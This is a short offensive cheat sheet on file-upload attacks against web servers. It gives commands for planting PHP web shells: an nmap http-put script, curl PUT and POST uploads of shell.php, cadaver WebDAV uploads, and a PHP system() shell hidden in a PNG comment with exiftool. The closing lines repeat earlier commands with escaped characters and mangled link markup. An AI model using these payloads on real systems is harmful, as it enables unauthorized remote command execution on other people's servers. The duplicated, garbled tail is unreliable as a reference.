 # File Upload

**HTTP PUT**

```bash
nmap -p 80 192.168.1.103 --script http-put --script-args http-put.url='/dav/nmap.php',http-put.file='/root/Desktop/nmap.php'

curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

**Cadaver**

```
cadaver http://192.168.1.103/dav/
put /tmp/shell.php
```

**JPG to PNG shell**

```
<?php system($_GET['cmd']); ?>  //shell.php
exiftool "-comment<=shell.php" malicious.png
strings malicious.png | grep system
```

**Upload Files through POST**

```bash
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

## POST binary data to a web form

curl -F "field=\<shell.zip" [http://$TARGET/upld.php](http://$target/upld.php) -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v

PUTing File on the Webhost via PUT verb

curl -X PUT -d '\<?php system($\_GET\["c"]);?>' [http://192.168.2.99/shell.php](http://192.168.2.99/shell.php)
